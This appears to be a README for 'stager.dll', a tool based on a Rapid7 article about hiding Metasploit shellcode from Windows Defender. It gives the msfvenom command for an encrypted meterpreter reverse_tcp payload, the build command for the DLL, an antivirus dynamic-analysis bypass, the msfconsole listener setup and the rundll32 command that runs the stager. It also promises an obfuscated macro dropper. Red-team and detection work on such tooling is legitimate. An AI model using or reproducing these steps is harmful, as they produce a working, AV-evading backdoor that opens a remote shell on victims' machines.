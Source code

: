 # stager.dll
Code from this article: [https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/)  

**HOW TO:**  
Get MSF5 from official repository (master branch - no official release yet at this time for v5): [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)  

Generate payload that suits your needs, ex:  
```ruby msfvenom -p windows/meterpreter/reverse_tcp_rc4 EXIT_FUNC=PROCESS LHOST-192.168.1.24 LPORT=443 RC4PASSWORD=GeekIsChic --encrypt aes256 --encrypt-iv E7a0eCX76F0YzS4j --encrypt-key 6ASMkFslyhwXehNZw048cF1Vh1ACzyyR -f c -o /tmp/meterpreter.c```  

Replace the payload in stager.cpp  and build the DLL on a Windows machine with ```cl /LD /MT /EHa stager.cpp aes.cpp```  

![https://phackt.com/public/images/stager/stager2.png](https://phackt.com/public/images/stager/stager2.png)  

*N.B: I added a dynamic analysis bypass taken from this article: [https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf](https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf)*  

Now edit meterpreter.rc and run:
```
ruby msfconsole -r <path_to_repo>/meterpreter.rc
```

Then run ```rundll32 stager.dll,Exec```  

![https://phackt.com/public/images/stager/stager1.png](https://phackt.com/public/images/stager/stager1.png)  



Soon i will write how to create a macro with an obfuscated powershell DLL dropper (Invoke-Obfuscation). Keep in touch.
